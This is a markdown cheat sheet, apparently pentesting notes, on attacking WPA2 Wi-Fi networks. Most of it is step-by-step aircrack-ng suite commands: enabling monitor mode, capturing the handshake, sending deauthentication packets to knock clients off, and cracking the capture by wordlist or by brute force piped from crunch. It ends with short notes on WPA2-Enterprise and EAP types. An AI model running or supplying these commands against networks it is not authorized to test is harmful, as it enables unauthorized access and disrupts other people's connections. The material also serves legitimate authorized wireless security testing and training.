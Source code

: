 ### General information
```
4 way handshake for authentiation
every user get single session (Pairwise Transient key - PTK, calculated from Pairwise Master Key - PMK)
replay protected
```

### Capture hanshake
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### If there are some problems starting the interface you can try
```
rfkill unblock all
```

### Send deauthenticate packets
```
aireplay-ng --deauth 5 -a <bssid> <interface>
```
 
### Crack captured handshake using wordlist
```
aircrack-ng <file>.cap -w <wordlist>
```

### Bruteforce captured handshake
```
crunch 8 10 [a-z;A-Z;0-9] | aircrack-ng <file>.cap -b <bssid> -w-
```
 
### General information about WPA2-Enterprise
```
No global key
Radius server used for authentication
```

### EAP-Types (without outer tunnel):
```
EAP-MD5
EAP-LEAP
```

### EAP-Types (with outer tunnel):
```
EAP-FAST
PEAP
EAP-TLS
```

